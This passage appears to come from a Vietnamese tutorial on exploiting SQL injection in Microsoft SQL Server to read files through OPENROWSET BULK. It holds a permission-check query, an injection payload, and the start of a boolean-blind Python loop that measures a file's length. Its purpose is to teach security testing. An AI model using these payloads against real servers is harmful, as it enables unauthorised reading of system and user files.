 - `SINGLE_CLOB` lưu trữ dữ liệu dưới dạng `varchar`.
- `SINGLE_BLOB` lưu trữ dữ liệu dưới dạng `varbinary`.
- `SINGLE_NCLOB` lưu trữ dữ liệu dưới dạng `nvarchar`.

Điều này cho phép chúng ta đọc nội dung của các file và có thể trích xuất thông tin nhạy cảm, chẳng hạn như các file hệ thống, dữ liệu ứng dụng hoặc dữ liệu người dùng, tùy thuộc vào quyền hạn mà chúng ta có trên server.

**Kiểm Tra Quyền Hạn:**
Không phải tất cả người dùng đều có quyền sử dụng `OPENROWSET` với các thao tác bulk. Để thực hiện các thao tác bulk, chúng ta cần các quyền đặc biệt như:

- `ADMINISTER BULK OPERATIONS`
- `ADMINISTER DATABASE BULK OPERATIONS`

Để kiểm tra xem người dùng có quyền này hay không, chúng ta có thể chạy câu truy vấn SQL sau:

```sql
SELECT COUNT(*) 
FROM fn_my_permissions(NULL, 'DATABASE') 
WHERE permission_name = 'ADMINISTER BULK OPERATIONS' 
   OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';
```

Nếu kết quả trả về lớn hơn `0`, có nghĩa là chúng ta có quyền cần thiết để thực hiện các thao tác bulk.

Trong trường hợp SQL injection, bạn có thể chèn câu kiểm tra này vào một trường đầu vào dễ bị tấn công, như sau:

```sql
maria' AND (SELECT COUNT(*) 
FROM fn_my_permissions(NULL, 'DATABASE') 
WHERE permission_name = 'ADMINISTER BULK OPERATIONS' 
   OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS') > 0;--
```

**SQL Injection Dạng Boolean-based:**
Nếu lỗi SQL injection là dạng blind (không thể nhìn thấy kết quả trực tiếp), chúng ta có thể khai thác để đọc độ dài của một file và nội dung của nó theo từng ký tự bằng cách sử dụng kỹ thuật tìm kiếm nhị phân.

- **Bước 1: Lấy độ dài của file.**

Câu truy vấn để lấy độ dài của nội dung file sẽ là:

```sql
SELECT LEN(BulkColumn) 
FROM OPENROWSET(BULK '<file_path>', SINGLE_CLOB) AS x
```

Chúng ta có thể sử dụng vòng lặp sau để xác định độ dài của file bằng cách gửi các câu truy vấn và điều chỉnh biến `length` cho đến khi truy vấn trả về đúng độ dài file:

```python
length = 1
while not oracle(f"(SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x)={length}"):
    length += 1
print(f"[*] File length = {length}")
```
